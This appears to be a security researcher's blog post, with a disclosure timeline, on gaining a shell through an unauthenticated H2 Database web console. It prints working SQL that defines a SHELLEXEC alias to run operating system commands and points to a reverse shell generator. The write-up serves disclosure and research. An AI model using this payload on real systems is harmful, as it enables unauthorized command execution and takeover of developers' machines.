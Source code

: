 ```yaml
---
layout: post
title: Abusing H2 Database ALIAS 
description: How to get a shell on a H2 Database, using ALIAS feature.
keywords: rce,abusing,shell,database 
disqus: true
tags: [RCE]
categories: RCE 
---
```

#### How to get a shell on a H2 Database, using ALIAS feature.
Today I was introduced to [H2 Database](http://www.h2database.com), a in-memory and pure Java Database, because it's a in-memory database, the developers use it most to learning, unit tests and poc's, but you can learn more about it on H2 [site](2018-03-14-abusing-h2-database-alias.markdown).

The H2 provides a web console, where you can manage your database, and here the things starts to be more interesting, by default it does not have an password set, so you can just log in, but what can we do inside it? The first thing I tried was the same trick that everyone knows on MySQL.

```
SELECT 'SOME CONTENT' INTO OUTFILE '/tmp/saida.txt'
```

And of course it didn't work, so I decided to be more smart and google it, trying to discover if anybody already find some RCE on it, and the maximum I found was a report made by the H2 Group on [SecurityFocus]('https://www.securityfocus.com/bid/58536'), but there wasn't an available exploit or any technical detail.

So after it I did the most obvious thing, open the H2 site, go to the documentation, and tried to find any interesting function, the first thing I found was the [FILE_READ](http://www.h2database.com/html/functions.html?highlight=FILE_READ&search=FILE_#file_read) function, where I can read files from filesystem, Ok, cool, it's a nice thing to do, but it's not a shell, so digging on SQL commands section, I found the [CREATE ALIAS](http://www.h2database.com/html/grammar.html#create_alias), basically, you can create an function on H2 that calls a java code, as the example

```
CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";
CALL GET_SYSTEM_PROPERTY('java.class.path');
```
or a more complex alias,
```
CREATE ALIAS REVERSE AS $$ String reverse(String s) { return new StringBuilder(s).reverse().toString(); } $$;
CALL REVERSE('Test');
```

Now it's game over, if I can execute Java code, I can get a shell, as I'm not a Java expert, I searchon Google a easy way to execute system commands with java, found a link on [stackoverflow](https://stackoverflow.com/a/20624914), I just adapted it inside the ALIAS, and now there's a function that execute arbitrary code,
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('id')
```

After that just find if the server have any tool to do a [reverse shell](https://github.com/mthbernardes/rsg), and you'll gain a interactive shell.

![h2-console-rce](/assets/images/h2-console-rce.gif)

#### Attack Scenario
One scenario is a distributed database called Datomic. The free version of Datomic uses an embedded H2 storage, and older versions of Datomic enabled the H2 console with the default blank H2 password. The free version is often used locally by developers for quick prototyping, thus unauthenticated local attackers can easily compromise their machines. The issue was disclosed to the Datomic team and was quickly [fixed](http://blog.datomic.com/2018/03/important-security-update.html).

#### Datomic Timeline
2018-03-14 - Initial Vulnerability discovery

2018-03-20 - First contact with Datomic team

2018-03-29 - Fix released

2018-04-05 - Blog published.
